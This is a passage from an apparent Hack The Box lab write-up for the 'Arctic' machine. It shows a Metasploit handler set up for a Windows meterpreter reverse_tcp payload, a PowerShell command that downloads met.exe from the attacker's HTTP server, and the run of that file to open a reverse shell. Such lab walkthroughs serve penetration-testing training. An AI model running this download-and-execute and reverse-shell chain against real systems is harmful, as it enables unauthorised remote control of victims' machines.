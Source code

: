 ```text
root@kali:~/htb/machines/arctic# python -m SimpleHTTPServer
```

Go back to your msfconsole and get a handler waiting for a new reverse connection:

```text
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > show options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  ----------
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > set windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf5 exploit(multi/handler) > set LHOST 10.10.14.31
LHOST => 10.10.14.31
msf5 exploit(multi/handler) > set LPORT 444
LPORT => 444
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.10.14.31:444
```

Go back to our existing user shell on the box, and grab our new payload we created in msfvenom:

```text
C:\ColdFusion8\runtime\bin>powershell.exe "(New-Object System.Net.WebClient).downloadFile('http://10.10.14.31:8000/met.exe','met.exe')"
```

File will be downloaded to current directory, now just run to open reverse shell back to msfconsole:

```text
C:\ColdFusion8\runtime\bin>met.exe
met.exe
```
